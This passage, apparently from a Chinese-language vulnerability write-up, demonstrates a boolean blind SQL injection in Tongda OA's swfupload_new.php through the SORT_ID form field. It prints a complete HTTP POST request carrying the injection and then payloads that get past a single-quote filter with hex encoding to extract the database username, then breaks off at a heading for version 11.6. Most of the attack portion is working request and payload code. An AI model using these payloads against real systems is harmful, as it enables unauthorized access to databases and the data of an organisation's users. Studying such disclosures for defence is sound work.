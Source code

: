 如下图，证明存在布尔盲注

```
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 192.168.163.146:8080
Pragma: no-cache
x-requested-with: XMLHttpRequest
Content-Length: 413
x-wvs-id: Acunetix-Deepscan/186
Cache-Control: no-cache
accept: */*
origin: http://192.168.202.1
Accept-Language: en-US
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

0 rlike (select (case when (1=1) then 1 else 0x28 end))
------------GFioQpMK0vv2--
```

可以看到，这里存在布尔盲注

![image-20210409184751007](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409184751007.png)

经过测试发现过滤了单引号，对r字符进行转换成16进制,通过手工最终获得数据库用户名root

```
rlike (select (case when (substr(user(),1,1)='r') then 1 else 0x28 end))
```

```
rlike (select (case when (substr(user(),1,1)=0x72) then 1 else 0x28 end))
```





# 通达OA 11.6

## 影响版本
